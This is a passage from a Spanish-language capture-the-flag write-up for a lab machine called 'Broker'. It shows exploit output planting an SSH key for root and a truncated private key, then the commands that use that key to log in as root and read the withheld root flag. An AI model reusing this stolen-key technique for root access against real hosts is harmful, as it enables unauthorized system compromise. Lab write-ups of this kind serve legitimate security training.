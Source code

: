 ~~~bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3<SNIP>Aw==
-----END OPENSSH PRIVATE KEY-----
[+] Add key to root user...
[+] Use the SSH key to get access
~~~
Con esto se puede copiar el id_rsa y conectarse mediante ello.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Copiando el id_rsa a la maquina atacante, solo es cosa de modificar los permisos y entrar como root.
~~~bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.243
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct 15 10:06:57 PM UTC 2025

  System load:           0.11962890625
  Usage of /:            70.9% of 4.63GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             160
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.243
  IPv6 address for eth0: dead:beef::250:56ff:fe94:588c

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

root@broker:~# cd /root/
root@broker:~# ls
cleanup.sh  root.txt
root@broker:~# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

